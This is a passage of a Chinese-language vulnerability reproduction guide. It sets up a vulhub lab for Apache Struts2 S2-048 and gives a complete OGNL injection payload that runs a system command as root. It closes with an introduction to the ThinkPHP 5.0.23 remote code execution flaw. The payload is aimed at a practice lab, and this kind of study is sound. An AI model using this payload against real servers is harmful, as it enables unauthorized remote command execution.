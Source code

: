 ```
靶机环境安装

升级apt-get
apt-get update

安装docker
sudo apt-get install docker.io
sudo apt-get install docker-compose

下载vulhub
git clone https://github.com/vulhub/vulhub.git

通过vulhub安装环境
cd vulhub/struts2/s2-048
docker-compose up -d

```

```
漏洞复现

攻击机访问url
http://xxx.xxx.xxx.xxx:8080/showcase
点击选项 Integration -&gt; Struts 1 Integration
或直接访问链接
http://xxx.xxx.xxx.xxx:8080/integration/editGangster.action
尝试在表单Gangster Name中提交数据${123*100}并提交,其他输入框随意提交
查看返回结果
我们发现姓名返回结果为12300,为我们计算的结果

```

```
在Gangster Name表单中输入下面payload执行命令
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}

发现返回值中带有Gangster uid=0(root) gid=0(root) groups=0(root) added successfully

```

### ThinkPHP漏洞

#### ThinkPHP5.0.23 远程代码执行漏洞

```
ThinkPHP是一个免费开源的，快速、简单的面向对象的轻量级PHP开发框架，是为了敏捷WEB应用开发和简化企业应用开发而诞生的。ThinkPHP从诞生以来一直秉承简洁实用的设计原则，在保持出色的性能和至简代码的同时，更注重易用性。ThinkPHP可以支持windows/Unix/Linux等服务器环境，正式版需要PHP 5.0以上版本，支持MySql、PgSQL、Sqlite多种数据库以及PDO扩展。

ThinkPHP5.0.23 远程代码执行漏洞由于thinkphp 5.0.23以前的版本中，获取method的方法中没有正确处理方法名，导致攻击者可以调用Request类任意方法并构造利用链，从而导致远程代码执行漏洞 影响版本为 ThinkPHP 5.x &lt; 5.1.31, &lt;= 5.0.23

```
